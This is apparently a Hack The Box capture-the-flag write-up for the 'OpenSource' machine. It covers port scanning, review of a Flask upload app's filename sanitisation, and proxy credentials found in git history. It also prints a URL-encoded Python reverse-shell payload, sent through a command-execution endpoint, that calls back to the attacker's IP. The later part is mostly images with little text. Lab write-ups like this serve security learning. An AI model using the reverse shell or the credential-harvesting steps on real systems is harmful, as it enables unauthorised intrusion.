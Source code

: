 # OpenSource

**Date**: 24/05/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/OpenSource](https://app.hackthebox.com/machines/OpenSource)

***

Let’s start with a ping

<figure><img src="../../.gitbook/assets/opensource0.png" alt=""><figcaption></figcaption></figure>

`ttl=63` so we are probably facing a Linux machine.

Let’s do a nmap port scan:

<figure><img src="../../.gitbook/assets/opensource1.png" alt=""><figcaption></figcaption></figure>

The TCP ports 22 and 80 are open, ssh and http, and there is a port (3000) that appears as filtered. Let’s do a detailed scan to try to obtain the services and their versions:

<figure><img src="../../.gitbook/assets/opensource2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource3.png" alt=""><figcaption></figcaption></figure>

While the previous scan was taking place (it took around 2 minutes) I launched a whatweb scan to scan the website hosted in the port 80:

<figure><img src="../../.gitbook/assets/opensource4.png" alt=""><figcaption></figcaption></figure>

The OpenSSH build version is `7.6p1 Ubuntu 4ubuntu0.7`

<figure><img src="../../.gitbook/assets/opensource5.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be an Ubuntu Bionic.

The web server is something called Werkzeug… let’s investigate about it:

[https://werkzeug.palletsprojects.com/en/2.1.x/](https://werkzeug.palletsprojects.com/en/2.1.x/)

<figure><img src="../../.gitbook/assets/opensource6.png" alt=""><figcaption></figcaption></figure>

> WSGI is the Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request.

Let’s see how it looks in the web-browser:

<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

Every link redirects to # except the buttons Download and Take me there:

<figure><img src="../../.gitbook/assets/opensource8.png" alt=""><figcaption></figcaption></figure>

Let’s click on Download first:

<figure><img src="../../.gitbook/assets/opensource9.png" alt=""><figcaption></figcaption></figure>

It starts the download of a compressed file that contains what it seems to be the source code of the upcloud software.

Now, let’s click on the button Take me there!:

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Let’s upload something:

<figure><img src="../../.gitbook/assets/opensource11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource12.png" alt=""><figcaption></figcaption></figure>

Sooo… it uploaded the file to the target server and then shows you the url to view the file. Nice. It will not be that easy, but let’s try to upload a php-reverse-shell.php…

<figure><img src="../../.gitbook/assets/opensource13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource14.png" alt=""><figcaption></figcaption></figure>

Hahahaha no, instead of interpret the php file it send it to us for download.

At this point, we have the source code of the application, so let’s try to see how it works and if there is any vulnerability we can exploit:

<figure><img src="../../.gitbook/assets/opensource15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource16.png" alt=""><figcaption></figcaption></figure>

[Utils.py](http://utils.py) code contains interesting stuff. There are several functions that try to sanitize the filename of the file we will try to upload.

```python
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

The function `recursive_replace` is self-explained. It takes 3 arguments:

* `search`: String that will be sanitized
* `replace_me` : String that will be replaced
* `with_me` : String that will replace the previous one

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

The function `get_file_name` gets the input `unsafe_filename` and replaces every `../` with nothing using the `recursive_replace` function.

```python
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
```

This function gets the input `unsafe_filename` and does 2 things.

1. It splits the input using the most right `.` character
2. Then it sanitizes the filename (but not the extension) and concatenate both including between a string representing the current milliseconds)

```python
"""
TODO: get unique filename
"""
```

There is a comment about a feature that has not been developed yet. Maybe we can use this later… Maybe we can cause something if we try to upload 2 files with the same filename?

<figure><img src="../../.gitbook/assets/opensource17.png" alt=""><figcaption></figcaption></figure>

The views.py file has functions related to the file upload process:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```

Ok, if we could name our file something like “../../../../../etc/passwd” the render template should return the passwd file due to directory traversal vulnerability. But the file name is being sanitized, replacing the “../” recursively with a blank string. Maybe we can find other string which can do the same function as “../../../../” (I don’t really know if it exists).

But first, let’s see what happens when we try to upload the same file twice (due to the TODO task), so we will upload the same file again, but changing it’s content. Previously the content of text.txt was “Hello world”, this time will be “Test”.

<figure><img src="../../.gitbook/assets/opensource18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource19.png" alt=""><figcaption></figcaption></figure>

Interesting, the upload overwrites the previous file.

Ok, let’s use Burpsuite to try to manipulate the upload. I intercepted an Upload request and send it to the repeater:

<figure><img src="../../.gitbook/assets/opensource20.png" alt=""><figcaption></figcaption></figure>

It didn’t work well…

After MANY hours trying to bypass the sanitization of the recursive replacement function in get\_name… I started from other aproach:

If we list all files we downloaded:

<figure><img src="../../.gitbook/assets/opensource21.png" alt=""><figcaption></figcaption></figure>

We can see the .git folder, which indicates us that is a git repository. Let’s enumerate it!

First, let’s see if there are several branches:

<figure><img src="../../.gitbook/assets/opensource22.png" alt=""><figcaption></figcaption></figure>

Yep, we are in the public branch, but there is another one called dev, so we switched to it. Let’s read the logs:

<figure><img src="../../.gitbook/assets/opensource23.png" alt=""><figcaption></figcaption></figure>

There are some commits. Let’s see the difference between them:

<figure><img src="../../.gitbook/assets/opensource24.png" alt=""><figcaption></figcaption></figure>

Between the “ease testing” and “added gitignore”, there is nothing interesting.

<figure><img src="../../.gitbook/assets/opensource25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource26.png" alt=""><figcaption></figcaption></figure>

But, between “ease testing” and “updated” there is a strange url with something that looks like credentials in a file called “settings.json” inside the .vscode folder.

```python
"python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
```

Let’s

<figure><img src="../../.gitbook/assets/opensource27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource28.png" alt=""><figcaption></figcaption></figure>

`http://10.10.11.164/exec?cmd=ping%20-c%201%2010.10.14.198`

<figure><img src="../../.gitbook/assets/opensource29.png" alt=""><figcaption></figcaption></figure>

`10.10.11.164/exec?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.198%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fsh%22%2C%22-i%22])%3B%27%0A`

<figure><img src="../../.gitbook/assets/opensource30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource31.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource32.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource38.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource39.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource41.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource49.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource53.png" alt=""><figcaption></figcaption></figure>

psp

<figure><img src="../../.gitbook/assets/opensource54.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource55.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource56.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource57.png" alt=""><figcaption></figcaption></figure>
